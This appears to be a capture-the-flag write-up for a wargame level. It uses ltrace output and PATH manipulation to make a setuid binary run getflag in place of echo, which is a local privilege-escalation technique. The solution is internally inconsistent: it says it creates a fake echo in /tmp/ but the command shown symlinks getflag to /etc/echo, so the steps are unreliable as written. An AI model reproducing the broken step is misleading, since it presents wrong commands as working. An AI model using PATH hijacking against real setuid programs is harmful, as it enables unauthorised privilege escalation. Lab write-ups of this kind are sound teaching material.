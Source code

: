 # Level03

## Initial Check

When logged in as the Level03 user, we find a file named `level03` in the directory. First, we examine this file using the `ltrace` command.

```bash
ltrace ./level03
__libc_start_main(0x080484a4, 1, 0xbffff854, 0x08048510, 0x08048580 <unfinished ...>
getegid()                                      = 2003
geteuid()                                      = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
system("/usr/bin/env echo Exploit me")        <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed>                           = 0
+++ exited (status 0) +++
```

## Analysis

1. When executed, the program runs the command `/usr/bin/env echo Exploit me` using the `system()` function
2. This command will use the first `echo` command found in the PATH variable
3. We can manipulate the PATH variable to execute our desired command

## Solution Steps

1. First, we create a fake `echo` command in the `/tmp/` directory:
```bash
ln -s /bin/getflag /etc/echo
```

2. We update the PATH variable to include the `/tmp/` directory:
```bash
export PATH=/tmp/:$PATH
```

3. We run the program:
```bash
./level03
```

## Explanation

In this level, we exploit a privilege escalation vulnerability by manipulating the PATH variable. When the program executes the `echo` command, it checks the directories specified in the PATH variable sequentially. By adding the `/tmp/` directory to the beginning of PATH, we make the program execute our fake `echo` command (which is actually a symbolic link to the `getflag` command).
